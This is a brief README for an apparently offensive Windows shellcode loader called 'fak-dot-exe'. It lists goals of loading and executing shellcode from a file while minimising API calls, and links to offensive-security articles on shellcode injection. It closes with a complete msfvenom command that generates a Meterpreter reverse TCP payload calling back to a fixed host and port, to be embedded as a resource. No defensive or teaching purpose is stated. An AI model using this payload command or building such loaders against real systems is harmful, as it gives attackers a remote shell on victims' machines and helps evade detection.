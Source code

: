 # fak-dot-exe
Papi secret sauce 💦

## Key Components
1. how to load shellcode from a file
2. how to execute it
3. How to minimize Windows Api call

## References
- [Read and Execute Shellcode from a .txt File](https://stackoverflow.com/questions/17842499/read-and-execute-shellcode-from-a-txt-file)
- [Writing and Compiling Shellcode in C](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
- [Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)
- [Dynamic Shellcode Execution](https://blog.f-secure.com/dynamic-shellcode-execution/)

### Embedding Shellcode as Resource
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.183.129 LPORT=443 > meterpreter.bin
```
